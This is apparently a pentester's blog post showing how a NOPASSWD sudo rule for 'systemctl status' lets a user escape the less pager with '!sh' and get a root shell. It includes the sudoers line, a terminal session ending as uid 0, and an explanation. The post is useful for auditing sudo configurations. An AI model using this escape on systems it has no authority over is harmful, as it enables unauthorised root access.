 ```yaml
---
layout: post
title: sudo systemctl LPE
tags: sudo systemd systemctl privilege escalation linux pentest vulnerability LPE PoC
---
```

Brief PoC showing the exploitation of an insecure sudo rule for journalctl, found in the wild.

Many of the sudo rules encountered in the wild are insecure. This is one such example.
Any other program printing its output via the pager `less` will also be vulnerable.
Many other pagers are similarly affected and can also be abused.

This is neither a vulnerability in `less`, `systemctl`, or `sudo`, but a misconfiguration by the admins.
Of course it could be argued that systemctl should not use a pager that can span new processes.
Generally speaking, I've reached the conclusion that sudo rules are harmful as they are often insecure.

### vulnerable sudo systemctl rule
This rould would allow *some_user* to check the status of *some_service*.
*/etc/sudoers.d/10_any_name_here*
```
some_user ALL = NOPASSWD: /bin/systemctl status some_service.service
```

### PoC
```
# Make the terminal so small that it has fewer lines than will be printed
some_user@pentest-app-1:/etc/sudoers.d$ id
uid=1004(some_user) gid=1004(some_user) groups=1004(some_user)
some_user@pentest-app-1:/etc/sudoers.d$ sudo /bin/systemctl status some_service.service

● some_service.service - SomeService HTTP Server
        Loaded: loaded (/lib/systemd/system/some_service.service; enabled; vendor preset: enabled)
[...]

!sh
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
```

### Explanation
systemctl appears to use the pager `less`.
`less` will be running with elevated privileges.
`less` will exit once it has displayed all its output.
By making our terminal really small, `less` will wait with exiting for us to scroll to the end.
We can use this to spawn a new process with the elevated privileges of `less`.
Thereby, potentially gaining a root shell.


### excert from *less*'s man page
```
       ! shell-command
              Invokes  a  shell  to run the shell-command given.  A percent sign (%) in the command is replaced by the name of the current file.  A pound sign (#) is re‐
              placed by the name of the previously examined file.  "!!" repeats the last shell command.  "!" with no shell command simply invokes a shell.  On Unix  sys‐
              tems, the shell is taken from the environment variable SHELL, or defaults to "sh".  On MS-DOS and OS/2 systems, the shell is the normal command processor.

       # shell-command
              Similar  to  the  "!"  command,  except that the command is expanded in the same way as prompt strings.  For example, the name of the current file would be
              given as "%f".
```

See also: [OverTheWire Bandit](https://overthewire.org/wargames/bandit/)

Years ago, when i was struggling with the brilliant OTW CTF challenge that taught me this nifty trick, little did I guess that this principle could ever be applicable in the wild. But as it turns out, it is not an uncommon misconfiguration pattern.
